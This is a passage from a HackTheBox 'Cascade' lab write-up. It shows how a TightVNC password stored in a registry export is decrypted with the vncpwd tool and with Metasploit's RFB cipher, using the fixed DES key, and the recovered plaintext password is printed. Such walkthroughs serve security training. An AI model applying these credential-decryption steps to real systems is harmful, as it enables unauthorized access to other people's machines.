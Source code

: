 ```bash
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
"DisconnectClients"=dword:00000001
"PollingInterval"=dword:000003e8
"AllowLoopback"=dword:00000000
"VideoRecognitionInterval"=dword:00000bb8
"GrabTransparentWindows"=dword:00000001
"SaveLogToAllUsersPath"=dword:00000000
"RunControlInterface"=dword:00000001
"IdleTimeout"=dword:00000000
"VideoClasses"=""
"VideoRects"=""

```

The line `"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f` jumped out as interesting.

Some reading about TightVNC shows that it stores the password in the register encrypted with a static key. There’s a bunch of tools out there to do it. I used [this](https://github.com/jeroennijhof/vncpwd). It takes a file with the ciphertext, which I created with `echo '6bcf2a4b6e5aca0f' | xxd -r -p > vnc_enc_pass`:

```bash
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Cascade]
└─$ echo '6bcf2a4b6e5aca0f' | xxd -r -p > vnc_enc_pas 
```

That command is using the `-r -p` options in `xxd` to convert from a hex string to ran binary.

I could also just use the Bash trick to treat command output as the contents of a file with `<( )`:

```bash
                                                                                                                                                                                                                                                            
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Cascade]
└─$ /opt/vncpwd/vncpwd vnc_enc_pas 
Password: sT333ve2
```

[This link](https://github.com/frizb/PasswordDecrypts) shows how to do it from within Metasploit, and it works as well:

```bash

msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
=> "\x17Rk\x06#NX\a"
>> 
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
=> "sT333ve2"

```

